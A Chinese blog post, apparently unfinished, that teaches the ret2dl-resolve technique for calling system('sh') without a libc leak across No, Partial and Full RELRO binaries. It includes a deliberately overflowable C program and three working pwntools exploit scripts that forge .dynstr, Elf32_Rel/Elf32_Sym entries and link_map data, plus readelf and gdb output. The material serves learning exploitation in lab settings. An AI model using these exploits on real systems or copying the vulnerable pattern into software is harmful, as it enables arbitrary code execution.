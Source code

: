 ```yaml
---
layout: post
title: return to Dynamic Resolver
excerpt: "return to Dynamic Resolver"
categories: [未完待续]
comments: true
---
```


#### return to Dynamic Resolver
不需要leak information和libc版本


RELRO:Relocation Read Only
- No RELRO : 所有相关的data structure几乎都能写
- Partial RELRO : .dynamic 、.dynsym、.dynstr等只能读(这个是gcc默认值)
- Full RELRO：所有的symbol载入时解析已经完成，GOT只读，没有link_map和resolver的指标

##### Leakless基本要求
- 非Full ASLR，probgram本身的memory layout要已知
- 通常有information leak时，使用DynELF会比较方便

#### No RELRO
伪造.dynstr
- readelf找出.dynamic中DT_STRTAB的位置,并改变它的值
- 把原本的.dynstr指向一个可控制的buffer,在buffer上放system的字串
- 跳一个还没有resolver过的symbol



#### ld的修改
可以`vim a.out`,然后该其中的ld


漏洞代码
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

char buf[1000000];

int main() {
  char local[10];
  int len = read(0, buf, sizeof(buf));
  memcpy(local, buf, len);
  return 0;
}
```
通过`readelf -a no | less`查看到STRTAB是Dynamic的从零起第八个
```
Dynamic section at offset 0x604 contains 24 entries:
  标记        类型                         名称/值
 0x00000001 (NEEDED)                     共享库：[libc.so.6]
 0x0000000c (INIT)                       0x80482b4
 0x0000000d (FINI)                       0x80484e4
 0x00000019 (INIT_ARRAY)                 0x80495f8
 0x0000001b (INIT_ARRAYSZ)               4 (bytes)
 0x0000001a (FINI_ARRAY)                 0x80495fc
 0x0000001c (FINI_ARRAYSZ)               4 (bytes)
 0x6ffffef5 (GNU_HASH)                   0x804818c
 0x00000005 (STRTAB)                     0x804820c
```
所以`dynamic_dynstr = dynamic + 8 * 8 `

memcpy结构
```
----------------
memcpy          |	原本的return addr
----------------|
new return addr |
----------------|
arg 1           |
----------------|
arg 2           |
----------------|
arg 3           |
----------------|

```

norelo最终代码(伪造.dynstr)
```python
from pwn import *

context.arch='i386'
r = process('./no')

read = 0x80482f0        #objdump -d no | grep read
memcpy = 0x8048300      #objdump -d no | grep memcpy
plt0 = 0x80482e0        #readelf -aW no |grep .plt
pop3 = 0x80484d9        #ROPgadget --binary no | less
pop2 = 0x80484da        #ROPgadget --binary no | less
pop1 = 0x80484db        #ROPgadget --binary no | less
gmon = 0x08048310       #08048310 <__gmon_start__@plt> 一个没有调用过的方法的位置    objdump -d no |grep __gmon_start__

buf = 0x8049740         #gdb-peda$ p &buf
d = buf + 2048          #这个指向的data的位置

dynamic = 0x08049604        #readelf -a no | grep dynamic
dynamic_dynstr = dynamic + 8 * 8        #dynamic中的第八个指向的是dynamic_dynstr

rop = flat(
    memcpy, pop3, dynamic_dynstr + 4, d, 4,     #这个就是从d(data)这里开始memcpy 4个byte,到dynamic_dynstr + 4,其中memcpy这个是return address
    gmon, 0xdeadbeef, d + 12   #d+12是'sh' 字串的位置             跳到__gmon_start__这个没有调用过的function,0xdeadbeef为call完之后的return address
    )

data = flat(
    d + 4 - 56,  # __gmon_start__中str+offset中offset为0x38,即56                #!!!!这个是strtab的指针,例如该值为0x41414141,那么0x41414141指向的值就是strtab
    'system\x00\x00' #__gmon_start__中str+offset指向了这个值
    'sh\x00'                                    #这个就是system的参数
    )

raw_input('@')
r.send(('A'*18 + p32(buf+1024+4)).ljust(1024, '\0') + rop.ljust(1024, '\0') + data)

r.interactive()
```

#### parti relo

伪造`.rel.plt`的enrty 
- 传一个特大的reloc_arg进去,使得.rel.plt+relog_arg落在可控的记忆体上,而`rel.plt`中有`offset和info(index索引)`,给index一个特大的值,使symtab进入到可控记忆体的位置,使`.dynstr + st_name`处放'system\0'

这个就是由于.dystr不可改,所以给一个巨大的reloc_arg让.dynsym落在可控区域,然后再伪造dynsym的st_name,使`.dynstr + st_name`落在可控区域,最终的exp
```python
from pwn import *

context.arch='i386'
r = process('./partial')

plt0 = 0x8048300
buf = 0x804a060
d = buf + 2048
relplt = 0x80482b4
dynsym = 0x80481cc
dynstr = 0x804822c

rop = flat(
    plt0, d - relplt, 0xdeadbeef, d + 36,   #直接跳到plt[0],d - relplt为plt0之前的参数,该参数可以让rel.plt直接落在data位置上,   d + 36指向了" sh"
    )
data = flat(
    [buf, 0x07 | (((d+12-dynsym)/16)<<8)], 0, # Elf32_Rel结构,其中的索引让symtab指向了像一行伪造的Elf32_Sym
    [d+28-dynstr, 0, 0, 0x12],  # 伪造的Elf32_Sym,构造虚假的偏移,让 .dynstr + offset 指向了下一行的system
    'system\x00\x00', # d+36
    'sh\x00'
    )
r.send(('A'*18 + p32(buf+1024+4)).ljust(1024, '\0') + rop.ljust(1024, '\0') + data)
r.interactive()
```
注意:`gnu.version[r_info>>8]`要为0

#### part 修改link_map
最终的exp
```python
#coding=utf-8
from pwn import *

context.arch='i386'

r = process('./partial')

# partial ver
memcpy = 0x8048320
pop3 = 0x80484f9
got1 = 0x804a004
gmon = 0x8048330

buf = 0x804a060
s = buf + 1024
d = buf + 2048

rop = flat(
    memcpy, pop3, s+32, got1, 4,  # 20          copy link_map
    memcpy, pop3, buf, 0x00, 56,  # 40          
    memcpy, pop3, buf+52, d, 4,   # 60
    memcpy, pop3, s+88, got1, 4,  # 80
    memcpy, pop3, 0x00, buf, 56,  # 100
    gmon, 0xdeadbeef, d + 20,
    )

data = flat(
    d+4, # 4
    [5, d+12-56], # 12
    'system\x00\x00', # 20
    'sh\x00'
    )

raw_input('#')
r.send(('A'*18 + p32(buf+1024+4)).ljust(1024, '\0') + rop.ljust(1024, '\0') + data)
r.interactive()
```

#### full relro:重新找回link_map和resolver
找回link_map
- `.dynamic`中DT_DEBUG指向r_debug结构
- r_debug中r_map指向link_map

找回resolver
- 先用l_next多走一层,再用l_info[DT_PLTGOT]找出library的`.got.plt`地址
- 因为大部分library都不是full relro,所以library的got2回事resolver

`readelf -aW full | less`

```
Dynamic section at offset 0xee8 contains 26 entries:
  标记        类型                         名称/值
 0x00000001 (NEEDED)                     共享库：[libc.so.6]
 0x0000000c (INIT)                       0x80482d4
 0x0000000d (FINI)                       0x8048504
 0x00000019 (INIT_ARRAY)                 0x8049edc
 0x0000001b (INIT_ARRAYSZ)               4 (bytes)
 0x0000001a (FINI_ARRAY)                 0x8049ee0
 0x0000001c (FINI_ARRAYSZ)               4 (bytes)
 0x6ffffef5 (GNU_HASH)                   0x80481ac
 0x00000005 (STRTAB)                     0x804822c
 0x00000006 (SYMTAB)                     0x80481cc
 0x0000000a (STRSZ)                      81 (bytes)
 0x0000000b (SYMENT)                     16 (bytes)
 0x00000015 (DEBUG)                      0x0					#第十二个entry
```
```
readelf -aW partial | grep dynamic
  [21] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
```
```
p/x ((Elf32_Dyn*)0x08049f14)[12]
```
```
0x00000015	0xf7ffd8e4
```
```
x/32wx 0xf7ffd8e4
0xf7ffd8e4 <_r_debug>:	0x00000001	0xf7ffd900	0xf7fea800	0x00000000
0xf7ffd8f4 <_r_debug+16>:	0xf7fda000	0x00000000	0x00000000	0x00000000
```
第二个值`0xf7ffd900`就是linkmap


